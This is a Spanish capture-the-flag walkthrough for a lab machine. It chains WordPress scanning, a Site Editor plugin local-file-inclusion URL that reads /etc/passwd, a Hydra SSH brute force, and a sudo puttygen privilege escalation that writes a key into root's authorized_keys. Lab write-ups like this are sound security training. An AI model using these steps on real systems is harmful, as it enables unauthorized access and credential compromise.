 nmap: 22,80

![image](https://github.com/user-attachments/assets/8504499b-9655-431e-a40f-ea0959b954cf)


---
en la pagina principal podemos ver que es de wordpress:

![image](https://github.com/user-attachments/assets/f9cd8200-a10f-4ea9-97fa-bde2654899cb)

como sabemos que es un wordpress podemos utilizar sus herramientas. hacemos un "wpscan":

    -  wpscan --url http://asucar.dl/ 

nos da una version de "site-editor 1.1"

![image](https://github.com/user-attachments/assets/7e5f859f-eea9-4ac8-9341-3c89158bd8e5)


hacemos un searchsploit site-editor plugin, buscamos con:

      - searchsploit -x php/webapps/44340.txt  
      
nos da:
> site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php

buscamos sobre el exploit: https://www.exploit-db.com/exploits/44340

![image](https://github.com/user-attachments/assets/1fc5f8f5-8ed3-48dc-b28e-762f86653953)


y encontré que si en la barra de búsqueda colocamos: http://asucar.dl/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

![image](https://github.com/user-attachments/assets/d02df419-b597-4b29-8f0d-a1403bd40c07)


y nos dio el contenido de "/etc/passwd" 

vemos que tenemos el usuario "*curiosito*"

hacemos un ataque de fuerza bruta:

         -hydra -l curiosito -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

y nos dio: password1

![image](https://github.com/user-attachments/assets/fb17e9e4-9822-4484-b6e2-52ffe7101fc1)

entramos por el ssh

al hacer "sudo -l" nos aparece "puttygen" que es un comando para generar claves privadas como publicas.

![image](https://github.com/user-attachments/assets/d7798445-a0ae-43dc-ad7c-4c3895b06260)


y encontré que tenemos permisos root generamos una clave primero:

      -  puttygen -t rsa -b 2048 -o rootAccess.ppk

![image](https://github.com/user-attachments/assets/8d29600c-e370-4b56-bef7-bd2708d06e7e)

se puede dejar sin contraseña o con contraseña
lo pasamos una clave publica:
    
      - sudo puttygen rootAccess.ppk -O public-openssh -o /root/.ssh/authorized_keys
    
 ahora una privada:
   
    - puttygen rootAccess.ppk -O private-openssh -o privateRootAccess.ppk

en nuestra terminal colocamos:

      - scp curiosito@172.17.0.2:/home/curiosito/privateRootAccess.ppk . 

para pasarnos la clave privada.

![image](https://github.com/user-attachments/assets/1755bf41-4b22-408b-b166-352148d9c0a2)


 ya pasado hacemos un:
        
    - ssh root@172.17.0.2 -i privateRootAccess.ppk 
    
![image](https://github.com/user-attachments/assets/5ec19d42-7ad6-4ea1-8244-59d94bd753d3)

colocamos la contraseña que colocamos y somos root! 

